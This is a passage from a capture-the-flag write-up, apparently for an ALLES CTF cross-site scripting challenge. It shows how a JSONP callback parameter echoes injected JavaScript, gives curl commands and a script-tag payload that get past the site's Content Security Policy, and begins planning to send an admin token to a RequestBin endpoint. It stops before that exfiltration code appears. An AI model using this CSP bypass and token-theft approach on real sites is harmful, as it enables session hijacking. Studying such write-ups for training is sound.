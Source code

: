 But the way the item data is handled is interesting.
The `cb` parameter for `items.php` looks like a callback parameter for `JSONP`.
`shop.js` defines a `parseItems` function and `ìtems.php` then calls this function with the data.

Let's have a look at the content of `items.php`:

```
$ curl http://xss.allesctf.net/items.php?cb=parseItems
parseItems([{"title": "Weihnachtsbaum", "url": "3.png", "text": "Plastik und voll schön."},{"title": "Christbaumkugel", "url": "1.png", "text": "Rund und bunt."},{"title": "Schlitten", "url": "2.png", "text": "Es ist glatt, er ist schnell!"}])
```

It looks like it just echos the callback parameter with parenthesis and the item data.
But what happens if instead of providing a function name we try to execute some other JavaScript and simply comment out the rest of the line?


```
$ curl 'http://xss.allesctf.net/items.php?cb=alert(1)//'
alert(1)//...
```

It seems to work!

This means we can serve arbitrary JavaScript from the `xss.allesctf.net` domain by passing it as a callback to `items.php`.

So we can now pass a script tag to the search box and it shouldn't get blocked by the `Content Security Policy`:

```html
<script src="http://xss.allesctf.net/items.php?cb=alert(1)//"></script>
```

And it works! The page displays a dialog.


## Attempt 1: Steal the admin's token

So what can we now do with this? We need to get the flag on the `Stage 2` page, so let's have another look at that page.

If we open the page via the link in the navigation bar we can see that it includes a token parameter:

```
http://stage2.xss.allesctf.net/?token=5e73de0e6dd59
```

If we try to open the page without the token parameter we get `Access Denied`.

So let's try to steal the token from the admin.

We need to send it somewhere that we control.
For this, we can just use a service like [RequestBin](https://requestbin.com/).
This will give us a domain like this: `enbdblkpmmbod.x.pipedream.net/`
and we can see all requests to any page on that domain.

Now we can just make a request with the token from the admin as the page.
